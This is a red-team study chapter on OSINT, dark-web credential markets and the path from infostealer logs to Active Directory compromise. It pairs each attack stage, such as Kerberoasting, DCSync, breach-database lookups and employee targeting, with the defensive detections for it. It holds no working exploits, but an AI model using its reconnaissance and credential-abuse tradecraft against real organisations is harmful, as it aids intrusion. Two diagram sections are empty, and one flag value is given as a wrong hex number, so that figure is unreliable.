





# OSINT & Dark Web Analysis

A practical red-team guide to gathering public information, hunting leaked credentials on the dark web, and turning those signals into Active Directory compromise.

---

## Executive Summary

OSINT and Dark Web Analysis is the pre-compromise pillar of every red-team engagement and the earliest defensive detection surface in the identity kill chain. Before an attacker touches a target's network, they harvest email addresses, employee names, exposed credentials, infrastructure metadata, and leaked session cookies from breach databases, paste sites, infostealer logs, and Tor-hidden criminal marketplaces. MITRE ATT&CK places this activity almost entirely in the **Reconnaissance (TA0043)** and **Resource Development (TA0042)** tactics — techniques `T1589` (Gather Victim Identity Information), `T1590` (Gather Victim Network Information), `T1592` (Gather Victim Host Information), `T1596` (Search Open Technical Databases), `T1597` (Search Closed Sources / Purchase Technical Data), and `T1588` (Obtain Capabilities) [MITRE ATT&CK TA0043](https://attack.mitre.org/tactics/TA0043/).

The dark-web credential economy has compressed the breach-to-ransomware timeline to roughly seven days. Infostealers (Lumma, StealC, RedLine, Raccoon, Vidar) harvest browser passwords **and active session cookies** from personal and unmanaged employee devices; those logs appear on Telegram channels and markets like Russian Market within 24–48 hours for $2–$100, and are resold as verified corporate access to ransomware affiliates [Saptang Labs](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/). Mandiant's M-Trends 2025 confirmed stolen credentials became the **number-two initial infection vector** for the first time, driven by infostealer logs that bypass MFA via cookie replay [Mandiant M-Trends 2025](https://cloud.google.com/blog/topics/threat-intelligence/m-trends-2025). Only FIDO2/phishing-resistant MFA resists this.

Microsoft's defensive stack answers this on the cloud side: **Entra ID Protection** emits a `leakedCredentials` risk detection when a user's valid credentials appear in a known breach (always HIGH risk, validated against current password hashes) [Entra ID Protection](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks); **Defender for Identity** flags on-prem AD accounts with leaked credentials and detects credential-access attacks in-network (DCSync, Golden Ticket, Kerberoasting, AS-REP, brute force) [Defender for Identity posture](https://learn.microsoft.com/en-us/defender-for-identity/security-posture-assessments/accounts); and **Security Exposure Management** correlates leaked-credential signals into prioritized attack paths via the MACE engine [Microsoft Exposure Management](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/from-signal-to-strategy-closing-attack-paths-with-identity-intelligence/4491856).

This chapter covers the full pipeline: OSINT collection tradecraft, dark-web market and leak-site monitoring, the infostealer-to-AD-compromise kill chain, and the detection/mitigation controls at each stage.

## Introduction

Red teaming is often taught as a post-foothold discipline — you have a beacon, now what. In reality the engagement is won or lost far earlier. The adversary's first move is reconnaissance: who works at the target, what is their email format, what credentials are already leaked, what infrastructure is exposed, and what tooling can be bought or borrowed. ATT&CK formalized this in 2020 (v7) by adding the **Reconnaissance** and **Resource Development** tactics, recognizing that pre-compromise activity is where modern campaigns begin [MITRE T1590](https://attack.mitre.org/techniques/T1590/).

Dark web analysis is the closed-source counterpart to OSINT. Where OSINT is passive and public (search engines, certificate transparency, WHOIS, Shodan), dark web analysis is **T1597 Search Closed Sources** — paying for or accessing criminal infrastructure: breach dumps on DeHashed/IntelX/Snusbase, access-broker ads on Russian Market, infostealer logs on Telegram, and ransomware leak sites on Tor [MITRE T1597](https://attack.mitre.org/techniques/T1597/). The bridge between the two is credential exposure: a breach database row is OSINT until you buy the full dump, then it is dark web analysis.

For CRTP candidates, this matters because the Altered Security ADLab chain assumes you already have a foothold — but the *real-world* path to that foothold, and the defender's earliest chance to stop you, lives here. Every technique in later sections (Kerberoasting, DCSync, Golden Ticket) is downstream of credentials that were either sprayed, reused, or purchased. Understanding the supply side makes the in-network detections in [Protocol Internals](#protocol-internals-kerberos--ntlm--ldap--smb--rpc) and the bypass material in [Bypass Techniques](#bypass-techniques-amsi--clm--scriptblock-logging--defender) make sense.

## Learning Objectives

After studying this chapter you should be able to:

1. **Map OSINT collection to ATT&CK Reconnaissance techniques** — distinguish passive (T1596), semi-passive, and active (T1595) collection postures, and choose the right one for a given engagement scope [PTES Intelligence Gathering](https://pentest-standard.readthedocs.io/en/master/intelligence_gathering.html).
2. **Enumerate an organization's external attack surface** using subdomain/certificate-transparency mining (crt.sh, Censys), WHOIS pivoting, Shodan/Censys exposure search, and email harvesting (theHarvester, Hunter.io, breach databases) [SpecterOps OSINT](https://specterops.io/blog/2018/10/02/open-source-intelligence-gathering-techniques-automation-and-visualization/).
3. **Query breach-credential aggregators** (DeHashed, IntelX, Snusbase, HIBP) to build password-spray wordlists and validate credential reuse, and explain why this maps to `T1589.001` [MITRE T1589.001](https://attack.mitre.org/techniques/T1589/001/).
4. **Describe the infostealer-to-ransomware kill chain** — Lumma/StealC infection, log listing, IAB resale, affiliate purchase, internal recon, and deployment — and the ~7-day timeline [Saptang Labs](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/).
5. **Explain why session cookies bypass MFA** and why only FIDO2/passkeys resist cookie replay (ATT&CK `T1539` Steal Web Session Cookie) [Ransomnews stealer logs](https://ransomnews.com/stealer-logs-explained-2026/).
6. **Operationalize dark-web monitoring defensively** — Entra ID Protection `leakedCredentials`, Defender for Identity leaked-credential posture, the Defender Password protection page, MDTI Graph APIs, and Sentinel breach-intel solutions [Entra ID Protection](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks).
7. **Track ransomware leak sites** with community tools (ransomwatch, Ransomware.live, RansomLook) and correlate CVE-disclosure dates with named-group posting spikes [RansomLook](https://github.com/RansomLook/RansomLook).
8. **Tie pre-compromise controls to formal standards** — NIST SP 800-63B-4 breached-password blocklists, NIST SP 800-53 AU-13(1) open-source monitoring, NIST CSF 2.0 ID.RA-02/DE.CM [NIST SP 800-63B-4](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf).

## Background Concepts

### OSINT Postures (PTES)

PTES defines three collection postures that determine detection risk [PTES](https://pentest-standard.readthedocs.io/en/master/intelligence_gathering.html):

| Posture | What it looks like | ATT&CK mapping | Detection risk |
|---|---|---|---|
| **Passive** | Archived third-party data only (WHOIS history, passive DNS, CT logs) | T1596 | None — target never sees you |
| **Semi-passive** | Looks like normal internet traffic; only published DNS/metadata queried | T1590/T1596 | Not attributable in real time |
| **Active** | Port scans, vuln scans, dir brute-force | T1595 | Should be detected |

### The Credential Economy

The dark web credential market has three tiers [CrowdStrike](https://www.crowdstrike.com/en-us/blog/falcon-intelligence-recon-and-dark-web/):

- **Raw logs** — infostealer output (browser creds + cookies), $2–$50 per log, sold on Telegram and forums.
- **Verified access** — IAB validates the creds work, lists on Exploit/Russian Market for $100–$6,151+ depending on sector.
- **Capability** — MaaS (Lumma $250–$1000/mo), exploits, code-signing certs, C2 licenses (T1588) [MITRE T1588](https://attack.mitre.org/techniques/T1588/).

### Why Session Cookies Are the Killer Feature

Stealer logs contain saved passwords **and active session cookies**. Replaying a stolen cookie continues an already-authenticated session, so push/SMS MFA never fires. Flare's 2026 data: 79% of enterprise logs contained Microsoft Entra ID credentials; 1.17M logs had both creds and session cookies [Ransomnews](https://ransomnews.com/stealer-logs-explained-2026/). This is why Mandiant's UNC5537/Snowflake case — 165+ customer tenants compromised with no Snowflake product flaw, just infostealer-stolen creds from contractor laptops — became the canonical narrative [Mandiant UNC5537](https://cloud.google.com/blog/topics/threat-intelligence/unc5537-snowflake-data-theft-extortion).

### Defensive Framing: NIST & AU-13(1)

NIST SP 800-53 Rev. 5 **AU-13(1)** "Monitoring Open-Source Information" is the closest formal control anchor for dark-web monitoring: build watchlists (domains, email domains, credential patterns), ingest into SIEM/SOAR, triage exposure, force reset + investigate logins [NIST SI-4](https://nist-sp-800-53-r5.bsafes.com/docs/3-19-system-and-information-integrity/si-4-system-monitoring/). NIST SP 800-63B-4 (July 2025) mandates breached-password blocklist screening — the formal control behind HIBP-style monitoring [NIST SP 800-63B-4](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf).

## Windows & Active Directory Fundamentals

AD is the credential target that dark-web exposure feeds into. A working mental model is required before the protocol and architecture sections.

### Core Objects

- **Domain** — a security boundary; all objects share a single Kerberos KDC and a contiguous LDAP namespace (e.g., `corp.local`).
- **Forest** — the *real* security boundary per Microsoft; one or more domains sharing a schema, config, and trust. (SpecterOps empirically broke this claim via unconstrained-delegation + Print Spooler abuse across forest trusts [SpecterOps forest trusts](https://specterops.io/blog/2018/11/28/not-a-security-boundary-breaking-forest-trusts/).)
- **Domain Controller (DC)** — holds a writable copy of the AD database (`ntds.dit`), runs the KDC, and services Kerberos/LDAP/SMB/RPC.
- **krbtgt** — the account whose NTLM/AES key signs all TGTs in a domain. Compromise → Golden Ticket (`T1558.001`).
- **Machine account** — every computer has an AD account ending in `$`; `MachineAccountQuota` (default 10) lets any domain user create one, which enables RBCD abuse [Elad Shamir Wagging the Dog](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html).

### Key Attributes an Attacker Reads via LDAP (any authenticated user)

| Attribute | Use | ATT&CK |
|---|---|---|
| `sAMAccountName` | Username; no `$` = user, trailing `$` = machine | T1087.002 |
| `servicePrincipalName` (SPN) | Indexed; Kerberoast target list | T1558.003 |
| `userAccountControl` (UAC) flags | `DONT_REQUIRE_PREAUTH` (0x41000000, bit 4194304) → AS-REP roastable; `TRUSTED_FOR_DELEGATION` (524288) → unconstrained | T1558.004 |
| `adminCount` | 1 = AdminSDHolder-protected (may be stale) | T1087 |
| `msDS-GroupMSAMembership` / `msDS-ManagedPassword` | gMSA password retrieval (if authorized) | T1003 |
| `msDS-AllowedToActOnBehalfOfOtherIdentity` | RBCD principal list; writable by any user with `GenericWrite` on the object | T1558.003 |

[zer1t0 Attacking AD](https://zer1t0.gitlab.io/posts/attacking_ad/) is the cleanest open reference for low-privilege LDAP recon and version-specific behavior.

### Functional Levels & Version Notes (CRTP-relevant)

- **Windows Server 2012 R2 functional level** — required for the Protected Users group and gMSAs.
- **LM hashes** gone since Vista/2008. **Digest SSP caching** disabled since 2008 R2.
- **Restricted Admin RDP** since 8.1/2012 R2.
- **RC4 Kerberos** disabled by default in Windows 11 24H2 / Server 2025; "Beyond RC4" phased enforcement through mid-2026 (`CVE-2026-20833`) [Microsoft Kerberoasting guidance](https://www.microsoft.com/en-us/security/blog/2024/10/11/microsofts-guidance-to-help-mitigate-kerberoasting/).
- **dMSA** (delegated Managed Service Account) — new in Server 2025; secret stored only on DC, device-bound, replaces gMSA for service-account scenarios [NSA AD guidance](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF).

### The Dark-Web-to-AD Kill Chain



The defender's earliest break point is **before A**: breached-password blocklists and dark-web monitoring catch the credential at point of leak. The latest reliable on-network break points are the Kerberos events in [Protocol Internals](#protocol-internals-kerberos--ntlm--ldap--smb--rpc).

## Protocol Internals (Kerberos, NTLM, LDAP, SMB, RPC)

AD runs on five protocols. Every credential attack is an abuse of one of them. Understanding the wire flow is what makes the detections in later sections make sense.

### Kerberos (port 88, UDP/TCP)

The default AD auth protocol. Flow:



**Attacker abuses and detections:**

| Abuse | Mechanism | Key event ID | Defender signal |
|---|---|---|---|
| **AS-REP Roasting** (`T1558.004`) | Request AS-REP for accounts with `DONT_REQUIRE_PREAUTH`; offline-crack the encrypted payload | 4768 / 4771 | AS-REQ for accounts without pre-auth from unusual source |
| **Kerberoasting** (`T1558.003`) | Any TGT holder requests a TGS for any SPN; RC4-encrypted (etype 0x17) ticket is offline-crackable | **4769** (ticket encryption **0x17** = RC4) | Anomalous TGS volume; RC4 etype on modern domain |
| **Golden Ticket** (`T1558.001`) | Forge TGT with stolen krbtgt hash; 10-year default lifetime | 4768/4769 | TGT for non-existent user; ticket lifetime > policy |
| **S4U2Self/S4U2Proxy** (RBCD, `T1558.003`) | Constrained-delegation protocol extension; accepts non-forwardable tickets by design (MS-SFU) | 4769 | Service tickets to newly added SPNs |

[Defender for Identity credential-access alerts](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md): DCSync 2006, Golden Ticket 2013, Kerberoasting 2410, AS-REP 2412.

### NTLM (challenge-response)

Legacy fallback. **Event 4776** (NTLM credential validation) is required by Defender for Identity sensors on DCs [Event 4776](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4776). Key failure codes for spray/brute-force detection: `0xC000006A` (wrong password, valid user), `0xC0000234` (locked out), `0xC0000064` (no such account = enumeration). NTLM relay (`T1557`) abuses the lack of channel binding on SMB/LDAP; mitigations are SMB signing, LDAP signing + channel binding, and EPA on AD CS web enrollment.

### LDAP (port 389/636)

The AD query protocol. Any authenticated user can query the whole forest via the Global Catalog (port 3268). SPN scanning — `(servicePrincipalName=*sql*)` — is the canonical stealthy service discovery because the attribute is **indexed**, returning in under a second and looking like normal Kerberos client activity [ADSecurity SPN scanning](https://adsecurity.org/?p=230). BloodHound/SharpHound collect via LDAP + SMB + RPC [SharpHound](https://github.com/SpecterOps/SharpHound).

### SMB (port 445)

File/pipe sharing and the vehicle for most lateral movement (psexec, wmiexec, smbexec, administrative shares). **SMB signing** must be enforced to block NTLM relay. NetExec `nxc smb 10.0.0.0/24` fingerprints signing status and exposes null sessions, shares, RID brute, SAM/LSA/NTDS dumps [NetExec](https://github.com/Pennyw0rth/NetExec).

### RPC / MS-DRSR

The **Directory Replication Service Remote Protocol (MS-DRSR)** defines `IDL_DRSGetNCChanges` over the `drsuapi` RPC interface. It requires the control access rights **DS-Replication-Get-Changes** and **DS-Replication-Get-Changes-All** (the latter returns password hashes). Normally only DCs and Domain/Enterprise Admins hold these. If a non-DC account obtains them (via ACL abuse, RBCD, or ntds.dit access), it can pull all hashes — the **DCSync** attack (`T1003.006`) [MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315). Defender for Identity DCSync alert 2006 consumes **Event 4662** (directory-service access, replication access mask `0x113f`) from a non-DC account.

## Architecture & Key Components

### The Microsoft Defensive Stack for Credential Exposure

| Component | Scope | Signal | Source |
|---|---|---|---|
| **Entra ID Protection** | Cloud identities | `leakedCredentials` risk detection (HIGH, validated match) | [Entra ID Protection](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks) |
| **Graph riskDetections API** | Cloud, programmatic | `GET .../riskDetections?$filter=riskEventType eq 'leakedCredentials'` | [Graph identity protection](https://learn.microsoft.com/en-us/graph/api/resources/identityprotection-overview?view=graph-rest-1.0) |
| **Defender for Identity** | On-prem AD | Leaked-credential posture assessment (Nov-Dec 2025 rollout); DCSync/Golden/Kerberoast/AS-REP/brute-force alerts | [DfI posture](https://learn.microsoft.com/en-us/defender-for-identity/security-posture-assessments/accounts) |
| **Defender Password protection (Preview)** | AD, Entra, Okta | Leaked Credentials + Exposed Passwords tabs; bulk reset/disable | [DfI password protection](https://learn.microsoft.com/en-us/defender-for-identity/password-protection) |
| **Entra Password Protection (on-prem)** | DC password filter | Global banned list from real spray telemetry (NOT breach lists); DC agent validates, no cleartext leaves DC | [Entra PP](https://learn.microsoft.com/en-us/entra/identity/authentication/concept-password-ban-bad-on-premises) |
| **MDTI Graph APIs** | Threat-actor infra | PDNS, WHOIS, SSL certs, subdomains, trackers, components | [MDTI](https://learn.microsoft.com/en-us/graph/api/resources/security-threatintelligence-overview?view=graph-rest-1.0) |
| **Security Exposure Management + MACE** | Cross-domain | Correlates leaked creds into attack paths to critical assets | [Exposure Mgmt](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/from-signal-to-strategy-closing-attack-paths-with-identity-intelligence/4491856) |
| **Defender for Endpoint ASR (LSASS)** | Endpoints | Block credential stealing from LSASS (GUID `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`) | [ASR reference](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide) |
| **Digital Crimes Unit (DCU)** | Operational | Disrupts infostealer C2 (StealC/Amadey, June 2026) | [DCU blog](https://www.microsoft.com/en-us/security/blog/2026/06/24/stealc-and-amadey-breaking-down-infostealers-and-the-cybercrime-services-that-deliver-them/) |

### The Offensive Stack (CRTP-relevant)

| Tool | Purpose | ATT&CK |
|---|---|---|
| BloodHound / SharpHound | AD attack-path graph; collect via LDAP/SMB/RPC | T1087.002, T1482 |
| Rubeus | Kerberos abuse: kerberoast, asreproast, tgtdeleg, S4U, golden/diamond | T1558.x |
| Mimikatz | LSASS dump, DCSync, Golden Ticket, PtH, Skeleton Key | T1003, T1558.001 |
| Impacket | secretsdump (DCSync), GetUserSPNs, ticketer, psexec/wmiexec | T1003.006, T1558, T1021 |
| Certipy | AD CS ESC1-ESC16 enumeration and abuse | T1212, T1649 |
| NetExec (nxc) | SMB/WinRM/LDAP spray, dump, modules | T1110, T1003 |
| PowerView | PowerShell LDAP recon (legacy but CRTP-still-tested) | T1087.002 |

### Where to Correlate: Sentinel & KQL

Sentinel content-hub solutions (CybleVision, TacitRed, XposedOrNot) ingest dark-web breach/credential intelligence into Log Analytics. The common pattern: poll dark-web API → normalize → custom log table → analytics rule → **join against `SigninLogs`** to match exposed accounts with recent sign-ins [CybleVision Sentinel](https://github.com/Azure/Azure-Sentinel/blob/master/Solutions/Cyble%20Vision/Analytic%20Rules/Alerts_Leaked_Credentials.yaml).

### The Tiered Enterprise Access Model (NSA baseline)

The NSA/CISA/ASD Sept 2024 advisory [NSA AD guide](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF) defines tiers to limit blast radius:

- **Tier 0** — DCs, AD CS CA, AD FS, Entra Connect, backups. Compromise = forest compromise.
- **Tier 1** — servers holding sensitive data.
- **Tier 2** — workstations.

Hardening: gMSAs/dMSAs, KRBTGT reset twice every 12 months (≥10h apart) [krbtgt reset](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password), LAPS, Protected Users, disable Print Spooler + SMBv1 on DCs, LSASS protected mode / Credential Guard. The rest of this chapter unpacks the techniques and detections that this architecture is designed to stop.## 8. Vulnerability / Misconfiguration Analysis

Before touching AD, a red team studies what is already broken — exposed CVEs, leaked credentials, and misconfigurations — because these are the cheapest doors to walk through. The dark web supply side feeds this phase directly: infostealer logs, breach dumps, and access-broker listings map to specific vulnerabilities and config gaps.

**Internet-edge CVEs that keep producing breach data.** A handful of CVEs drive the majority of mass-extortion leak-site posts, so they are the first thing to triage on a target's external footprint:

| CVE | Product | Type | Why it matters here |
|-----|---------|------|---------------------|
| CVE-2023-4966 | Citrix NetScaler ("Citrix Bleed") | Session-token leak | MFA-bypassing session hijack; LockBit/Black Basta used it ([NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-4966)) |
| CVE-2023-34362 | MOVEit Transfer | SQLi → web shell | Cl0p mass extortion via CL0P-LEAKS .onion ([CISA AA23-158A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-158a)) |
| CVE-2021-44228 | Apache Log4j2 ("Log4Shell") | JNDI RCE, CVSS 10 | Drove breach data that still populates dark-web dumps |
| CVE-2021-26855 | Exchange ("ProxyLogon") | SSRF chain | HAFNIUM mailbox exfil to MEGA |
| CVE-2024-3400 | PAN-OS GlobalProtect | Unauth root | UTA0218 targeted `ntds.dit`/DPAPI post-exp ([Volexity](https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/)) |
| CVE-2020-1472 | Netlogon ("Zerologon") | DC account reset | CVSS 10; CRTP staple → DCSync |

Use the [CISA KEV catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog) to filter which CVEs are *actively* producing breach data versus theoretical.

**AD-side misconfigurations that need no CVE.** These are protocol-design weaknesses or admin drift, not patched bugs:
- **Kerberoasting (T1558.003)** — any user with a TGT can request a TGS for an SPN; RC4 tickets (etype `0x17`) crack offline. No CVE exists; the structural fix is gMSAs/dMSAs and RC4 removal ([MS Kerberoasting guidance](https://www.microsoft.com/en-us/security/blog/2024/10/11/microsofts-guidance-to-help-mitigate-kerberoasting/)).
- **AS-REP roasting (T1558.004)** — accounts with "Do not require Kerberos preauth" UAC bit.
- **AD CS ESC1-ESC16** — certificate template misconfigs enumerated by Certify/Certipy ([Certified Pre-Owned](https://blog.harmj0y.net/activedirectory/certified-pre-owned/)).
- **Discoverable passwords in AD attributes** — `description`, `info`, `adminComment` contain plaintext creds; readable by any authenticated user. Microsoft's AI posture alert found 40,000+ exposed credentials across 2,500 tenants ([Microsoft blog](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/leaving-the-key-under-the-doormat-how-microsoft-defender-uses-ai-to-spot-exposed/4439870)).
- **Print Spooler on DCs** — enables PrintNightmare (CVE-2021-34527) and the printer-bug coercion used in forest-trust attacks.

**Defender view.** NIST SP 800-63B-4 (July 2025) mandates breached-password blocklist screening — the formal control behind HIBP-style monitoring ([NIST](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf)). Entra Password Protection's global banned list is built from real spray telemetry, not third-party breach lists ([MS docs](https://learn.microsoft.com/en-us/entra/identity/authentication/concept-password-ban-bad-on-premises)). Patch posture + MFA + credential-hygiene monitoring break the chain at the cheapest point.

## 9. Attack Surface

The attack surface for an OSINT/dark-web engagement has three layers: external infrastructure, identity/credential exposure, and the human attack surface.

**Layer 1 — External infrastructure.** What the internet knows about the org: domains, subdomains, IP blocks, exposed services, certificates. Sources: certificate transparency (`crt.sh`, Censys `parsed.names: target.com`), passive DNS, WHOIS, Shodan/Censys/LeakIX. BHIS treats this as the first 5 minutes of IR: `nslookup -type=mx`, DNS Dumpster, then Shodan for exposed 3389/445/22 ([BHIS](https://www.blackhillsinfosec.com/osint-for-incident-response-part-1/)). SpecterOps adds reverse WHOIS via WhoXY and RDAP for net-block ownership ([SpecterOps](https://specterops.io/blog/2018/10/02/open-source-intelligence-gathering-techniques-automation-and-visualization/)).

**Layer 2 — Identity and credential exposure.** Three sub-categories per NetSPI's EASM framing: dark-web data (marketplaces, forums), breach data (credential dumps), and public data exposure (misconfigured repos/buckets) ([NetSPI](https://www.netspi.com/blog/executive-blog/attack-surface-management/easm-strategy-dark-web-monitoring/)). Standard sources: DeHashed/IntelX/Snusbase for breach-DB lookups, HIBP for safe breach-corpus checks, Hudson Rock/SpyCloud/Flare for stealer logs. Flare's 2026 data: 18.7M logs analyzed, 16% now expose enterprise SSO creds, 79% of enterprise logs contained Entra ID credentials ([ransomnews](https://ransomnews.com/stealer-logs-explained-2026/)). The Mandiant UNC5537/Snowflake case is the canonical narrative: 165 customer tenants breached using infostealer-harvested creds, some stolen in 2020 and still valid; 79.7% of accounts had prior credential exposure ([Mandiant](https://cloud.google.com/blog/topics/threat-intelligence/unc5537-snowflake-data-theft-extortion)).

**Layer 3 — Human attack surface.** LinkedIn employee mapping, email format discovery, role/relationship inference. CovertSwarm argues precision campaigns of 10-30 employees beat bulk phishing; developers and mid-level staff are highest-value, lowest-awareness ([CovertSwarm](https://www.covertswarm.com/post/inside-a-red-team-osint-human-attack-surface)). Out-of-office replies leak manager names and return dates.

**Defender view.** NIST CSF 2.0 `ID.AM-03` (asset inventories) and `DE.CM-01/06` (continuous monitoring) are the defensive counterparts. Microsoft Security Exposure Management + MACE correlates leaked-credential signals into prioritized attack paths to critical assets ([MS blog](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/from-signal-to-strategy-closing-attack-paths-with-identity-intelligence/4491856)).

## 10. Threat Model

A threat model for OSINT/dark-web analysis answers: who is buying your credentials, how fast do they act, and what do they do next?

**The access-broker economy.** CrowdStrike telemetry: Russian Market posted hundreds of access-broker ads daily; one actor posted 800,000+ times in 2022; average price for government access $6,151, academic $3,827 ([CrowdStrike](https://www.crowdstrike.com/en-us/blog/falcon-intelligence-recon-and-dark-web/)). Mandiant M-Trends 2025: stolen credentials became the #2 initial infection vector (16% of investigations) for the first time, driven by Lumma/StealC/RedLine/Raccoon/Vidar infostealers ([Mandiant](https://cloud.google.com/blog/topics/threat-intelligence/m-trends-2025)).

**The compressed timeline.** Saptang Labs documents a ~7-day journey: Day 0 personal device infected → Day 1 log listed on Telegram (~$45) → Day 2 IAB validates session-cookie access (bypasses MFA) → Day 3 access listed on Exploit (~$3,200) → Day 4 ransomware affiliate buys → Days 5-6 privesc/staging → Day 7 ransomware deploys (avg demand $2.8M) ([Saptang](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/)). Unit 42 adds: the fastest 25% of 2025 intrusions exfiltrated in ~72 minutes, 4x faster than 2024; median initial demand rose 80% to $1.5M ([Unit 42](https://unit42.paloaltonetworks.com/2025-ransomware-extortion-trends/)).

**Why session cookies change the model.** Stealer logs contain saved passwords *and* active session cookies. Replaying a stolen cookie continues an already-authenticated session, so push/SMS MFA never fires. Only FIDO2/passkeys resist this. This is why stealer logs are now the dominant ransomware initial-access vector and the core of the credential economy.

**Groups to model against.** LAPSUS$/Scattered Spider (credential purchasing, T1586), Star Blizzard, Volt Typhoon, Cl0p/TA505/Lace Tempest (zero-day mass extortion of file-transfer appliances). ATT&CK notes LAPSUS$ purchased credentials and session tokens from criminal forums ([T1589.001](https://attack.mitre.org/techniques/T1589/001/)).

**Defender view.** The only reliable early warning is external monitoring of criminal marketplaces for your domain in newly published stealer logs — HIBP, SpyCloud, Constella, Flare, IntelX. Internal SIEM signals arrive too late; the first indication is usually the ransom note.

## 11. MITRE ATT&CK Enterprise Mapping

OSINT and dark-web activity maps almost entirely to two pre-compromise tactics: **Reconnaissance (TA0043)** and **Resource Development (TA0042)**, both on the PRE platform.

| Technique | Name | Relevance |
|-----------|------|-----------|
| T1590 | Gather Victim Network Information | Domain properties, DNS, IP blocks — subdomain/CT mining |
| T1592 | Gather Victim Host Information | Hardware/software/firmware fingerprinting |
| T1589 | Gather Victim Identity Information | .001 Credentials, .002 Email, .003 Employee Names — breach-DB lookups |
| T1591 | Gather Victim Org Information | Locations, business relationships, roles |
| T1595 | Active Scanning | IP blocks, vuln scanning, wordlist scanning (detectable) |
| T1596 | Search Open Technical Databases | .001 DNS/PDNS, .002 WHOIS, .003 Certificates, .005 Shodan/Censys |
| T1597 | Search Closed Sources | .002 Purchase Technical Data — buying breach creds/stealer logs (the bridge to "dark web") |
| T1588 | Obtain Capabilities | MaaS, tools, code-signing certs, exploits |
| T1585 | Establish Accounts | Cultivating personas for pretexting |
| T1586 | Compromise Accounts | Reusing breach-dump creds rather than creating new accounts |

